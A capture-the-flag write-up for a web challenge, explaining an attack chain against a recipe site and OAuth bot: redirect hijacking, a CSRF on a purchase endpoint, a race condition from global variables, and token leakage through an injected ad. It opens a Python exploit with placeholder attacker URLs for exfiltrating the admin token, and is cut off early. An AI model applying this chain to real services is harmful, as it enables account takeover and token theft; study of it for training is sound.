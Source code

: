 If we are able to make the bot login with `redirect_uri` equal to the url of a recipe that starts with `cb` (e.g.`http://saffron.challs.teamitaly.eu/cbefd7d0-0ec2-4053-bc22-4a501cb59e99`) after the login the bot will be redirect to `http://saffron.challs.teamitaly.eu/cbefd7d0-0ec2-4053-bc22-4a501cb59e99#token=1234&exp=1234`.
If we control the ad of the recipe we can leak the url and the admin token.

#### Redirect the bot

We can report a recipe to the admin and the bot will visit it.

The bot follows this logic:

- Load the recipe page
- Click on the login button
- Login
- Wait some time on the page

We can redirect the bot with a recipe that renders a link to our server above the login button.
This is allowed by DOMPurify and allows us to take control of the authorization flow.

#### Get the money to create an ad

To buy an ad you need 100$ that will be moved from the advertiser to the author.

All the registed users starts with a balance of 0$.

It's possible to exploit the infinite money of the admin by forcing it to buy an ad on a recipe controlled by us.
This can be done exploiting a csrf of the `/buyad` endpoint.

This exploit allows us to get money for a user of the `author` category.
But we need a user of the `advertiser` category to buy an ad.

To buy the ad using the money of the `author` user we can exploit a race condition in the `/buyad` endpoint.
Indeed `user_info` and `user_money` are not defined, so they become global variables in the server.

If we send two requests to buy an ad for different users at the same time it's possible to get the `user_info` of one user and the `user_money` of the other one.

By sending the requests for the author user with the money and the advertiser user without the money in a few tries it's possible to create the ad for the advertiser with the money of the author.

#### Get the flag

- Create a recipe with id that starts with `cb`
- Buy the ad of the recipe with a payload to leak the `baseURI`
- Redirect the bot login flow to set the `redirect_uri` to the recipe that starts with `cb`
- Leak the token and use it to get the flag

### Exploit

```python

import requests
import urllib.parse
import random
import string
import re
from threading import Thread


AUTH_HOST = 'http://uauth.challs.teamitaly.eu'
BLOG_HOST = 'http://saffron.challs.teamitaly.eu'
LEAK_URL = 'http://YOUR_SERVER/?leak='
ATTACK_URL = 'http://YOUR_SERVER/start.php'


def generate_random_string(n=10):
```